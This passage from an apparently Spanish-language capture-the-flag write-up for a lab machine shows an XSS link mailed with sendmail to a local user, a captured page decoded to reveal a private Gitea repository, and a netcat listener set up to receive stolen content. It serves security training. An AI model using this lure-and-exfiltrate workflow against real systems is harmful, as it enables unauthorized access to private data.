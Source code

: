 Y le enviamos el link por mail al administrador:

```
echo "http://localhost:3000/axel/xss" | sendmail administrator@cat.htb

/home/axel/dead.letter... Saved message in /home/axel/dead.letter
```

Como da error al tratar de enviarselo a `administrator@cat.htb`, se lo enviaremos a un usuario que si exista en la máquina local.

```
echo "http://localhost:3000/axel/xss" | sendmail jobert@cat.htb
```

Si esperamos un momento, nos llega la solicitud con el contenido de `/administrator`.

La decodificamos:

```
node

> const body = '<encoded-body>'
> console.log(decodeURIComponent(body))
```

Y nos muestra los repositorios de `Administrator`. El único del que dispone es `Employee-management`.

```html
<!DOCTYPE html>
<html lang="en-US" data-theme="gitea-auto">
<head>
    ...
</head>
<body hx-headers='{"x-csrf-token": "3al9Kr21OmCbGJiIh3zBYEsUqMc6MTc0MjQzMTQ4NDc4MTIxODQ2Ng"}' hx-swap="outerHTML" hx-ext="morph" hx-push-url="false">
    ...
    <a class="text primary name" href="/administrator/Employee-management">Employee-management</a>
    <span class="label-list">
        <span class="ui basic label">Private</span>
    </span>
    ...
	<footer class="page-footer" role="group" aria-label="Footer">
        ...
    </footer>
    ...
</body>
</html>
```

Vamos ahora a listar los archivos que tiene el repositorio `Employee-management`.

Nos ponemos en escucha:

```
nc -lnvp 80
```
